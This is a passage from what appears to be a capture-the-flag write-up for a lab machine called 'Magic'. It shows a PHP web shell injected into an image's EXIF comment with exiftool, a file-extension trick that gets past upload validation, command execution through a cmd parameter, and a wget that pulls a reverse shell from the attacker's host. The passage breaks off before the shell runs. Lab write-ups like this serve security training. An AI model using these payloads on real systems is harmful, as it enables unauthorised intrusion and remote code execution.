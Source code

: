 ### Magical Image Upload
First up, I recommend that you try uploading a normal image file. You'll see that there's some validation on the backend for image files preventing you from uploading malicious stuff. Well as it turns out, there's a way to [bypass image upload checks](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to get a shell up on the application:
```
$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' batman.jpeg
```
Rename the output to include `.php` in the file extension:
```
$ mv batman.jpeg batman.php.jpeg
```
(Yes I used "batman". No judging. Use your own image.). Now upload your magic image file and you should see that it got uploaded successfully.

### Image Upload -> Code Execution
Go back to the "Magic" home page and locate your uploaded image. Easiest way: find out that the images are generally stored at the `http://magic.htb/upload/images/` directory, then just add your uploaded image filename to the end, like this:
```
http://magic.htb/images/uploads/batman.php.jpeg
```
Use `id` as a command to check that code execution is working:
```
http://magic.htb/images/uploads/batman.php.jpeg?cmd=id
```
You should get something like this:
```
����JFIF��,

uid=33(www-data) gid=33(www-data) groups=33(www-data)
���	( %!1!%)+...383-7(-.+
```
### Code Execution -> Shell
Now here we gotta be quick because somehow the application deletes uploaded pictures at a pretty frequent rate. What we need to do:
- 1. Make sure the `/dev/shm` (or any other world-writable directory) is actually writable on the target server
- 2. Get the target server to fetch [`shell.php`](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from us (essentially carrying out a Server-Side Request Forgery aka SSRF)
- 3. Execute that `shell.php`
  
  
Let's go: 1:
```
http://magic.htb/images/uploads/batman.php.jpeg?cmd=ls%20-la%20/dev/shm/
```
```
����JFIF��,

total 0
drwxrwxrwt  2 root root   40 Aug 23 00:52 .
drwxr-xr-x 18 root root 4200 Aug 23 00:53 ..
���	( %!1!%)+...383-7(-.+
```
Ok looks good. 2:
```
kali@kali:~/htb/boxes/magic/www$ sudo python3 -m http.server 9002
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 9002 (http://0.0.0.0:9002/) ...

```
```
http://magic.htb/images/uploads/batman.php.jpeg?cmd=wget%20http://10.10.14.4:9002/shell.php%20-P%20/dev/shm
```